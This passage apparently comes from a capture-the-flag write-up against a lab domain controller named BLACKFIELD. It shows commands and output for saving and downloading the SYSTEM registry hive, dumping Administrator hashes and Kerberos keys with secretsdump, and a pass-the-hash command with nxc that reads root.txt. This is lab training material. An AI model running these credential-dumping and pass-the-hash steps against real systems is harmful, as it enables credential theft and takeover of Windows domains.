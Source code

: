 We also need to exfiltrate the `system.hive` file:

```bash
# make a copy of the file
*Evil-WinRM* PS C:\windows\temp> reg save HKlM\SYSTEM C:\windows\temp\system.hive
The operation completed successfully.

# download the file
*Evil-WinRM* PS C:\> download system.hive

Info: Downloading C:\\system.hive to system.hive

Info: Download successful!
```

Now the `Administrator` hash can be easily dumped which let us compromise the `root.txt` file:

```bash
# dump the administrator hash
$ secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Admin
Administrator:500:aad3b435b51404eeaad3b435b51404ee:18<REDACTED>ee:::
Administrator:aes256-cts-hmac-sha1-96:dbd84e6cf174af55675b4927ef9127a12aade143018c78fbbe568d394188f21f
Administrator:aes128-cts-hmac-sha1-96:8148b9b39b270c22aaa74476c63ef223
Administrator:des-cbc-md5:5d25a84ac8c229c1

# compromise the root.txt file
$ nxc smb 10.10.10.192 -u administrator -H 18<REDACTED>ee -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\administrator:18<REDACTED>ee (Pwn3d!)
SMB         10.10.10.192    445    DC01             [+] Executed command via wmiexec
SMB         10.10.10.192    445    DC01             43<REDACTED>cb
```
